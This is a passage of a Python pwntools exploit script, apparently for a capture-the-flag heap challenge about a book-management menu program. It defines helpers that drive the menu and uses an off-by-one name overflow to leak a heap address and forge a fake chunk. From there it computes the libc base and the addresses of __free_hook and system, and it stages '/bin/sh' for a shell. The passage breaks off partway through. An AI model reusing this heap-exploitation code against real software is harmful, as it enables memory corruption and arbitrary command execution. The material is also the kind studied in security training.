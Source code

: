 ```python
		book_name=p.readline()[:-1]
		p.readuntil(": ")
		book_des=p.readline()[:-1]
		p.readuntil(": ")
		book_author=p.readline()[:-1]
	return book_id,book_name,book_des,book_author

def createname(name):
	p.readuntil("name: ")
	p.sendline(name)

def changename(name):
	p.readuntil("> ")
	p.sendline("5")
	p.readuntil(": ")
	p.sendline(name)

def editbook(book_id,new_des):
	p.readuntil("> ")
	p.sendline("3")
	p.readuntil(": ")
	p.writeline(str(book_id))
	p.readuntil(": ")
	p.sendline(new_des)

def deletebook(book_id):
	p.readuntil("> ")
	p.sendline("2")
	p.readuntil(": ")
	p.sendline(str(book_id))

# leak chunk1_stuct addr
createname("A"*32)
#gdb.attach(p,"b *$rebase(0x0B94)")
createbook(128,"a"*8,32,"b"*8)
createbook(0x21000,"/bin/sh\x00",0x21000,"d"*8)
book_id_1,book_name,book_des,book_author=printbook(1)
book1_addr=u64(book_author[32:32+6].ljust(8,'\x00'))
log.success("book1_address:"+hex(book1_addr))


# set fake chunk
log.success("book2_name_addr:"+hex(book1_addr+0x38))
log.success("book2_desc_addr:"+hex(book1_addr+0x40))
payload=p64(1)+p64(book1_addr+0x38)+p64(book1_addr+0x40)+p64(0xffff)
editbook(book_id_1,payload)


# overwrite chunk1_stuct addr 2 fake chunk
changename("A"*32)
book_id_1,book_name,book_des,book_author=printbook(1)
book2_name_addr=u64(book_name.ljust(8,"\x00"))
book2_des_addr=u64(book_des.ljust(8,"\x00"))
log.success("book2 name addr:"+hex(book2_name_addr))
log.success("book2 des addr:"+hex(book2_des_addr))
libc_base=book2_des_addr-0x5b6010#0x5b9010
log.success("libc base:"+hex(libc_base))
free_hook=libc_base+libc.symbols["__free_hook"]
log.success("free_hook:"+hex(free_hook))
system = libc_base+libc.symbols["system"]
'''
ne_gadget=libc_base+0x4f3c2 #0x4f2c5 0x10a38c 0x4f322
log.success("one_gadget:"+hex(one_gadget))
```
